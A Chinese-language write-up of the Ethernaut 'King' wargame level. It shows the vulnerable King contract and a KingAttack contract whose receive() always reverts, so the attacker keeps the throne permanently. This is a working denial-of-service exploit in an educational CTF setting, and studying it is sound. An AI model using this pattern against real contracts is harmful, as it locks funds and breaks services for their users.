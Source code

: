 # 9. King
### 原题

下面的合约表示了一个很简单的游戏: 任何一个发送了高于目前价格的人将成为新的国王. 在这个情况下, 上一个国王将会获得新的出价, 这样可以赚得一些以太币. 看起来像是庞氏骗局.

这么有趣的游戏, 你的目标是攻破他.

当你提交实例给关卡时, 关卡会重新申明王位. 你需要阻止他重获王位来通过这一关.

---
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```
### 分析
这个感觉就是竞选国王啊，谁有钱谁就当，如果你价更高，我必须被迫接受下台。\
可是我很享受当国王的美好日子，想打破规则，想一直当下去。\
这时候我又要开始动起我的小心思了，试试能不能破解。\
就算你钱再多，系统也不会让我拱手相让。\
我们看看这个receive()函数，你要不就是所有者，要不就是你要出价比上一个国王的价格高，才可以得到。\
假设我从七大姑八大姨东拼西凑凑齐了足够的钱，那我就可以转账，然后得到我要的。\
上一个国王得到我的补贴，把皇位拱手相让。\
我要防止下一个，那怎么办，那就是我不接收转账呗。\
“payable(king).transfer(msg.value);”如果我在接受转账的过程中主动revert()，\
那就整个交易都是失败的，我还是原来的我！
来看看代码
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract KingAttack {
   address public king;

    constructor(address _king) payable  {
      king = _king;

    }
    function attack(uint256 amount) public {
      require(address(this).balance >= amount, "Not enough");  
      (bool success,) = king.call{value: amount}("");
      require(success, "attack failed");
    }

    receive() external payable { 
      // 重点在这，主动报错,整个交易回滚，你还是原来的国王
      revert("I am King forever");
    }

}
```
### 总结
这个案例告诉我们，要学会拒绝：）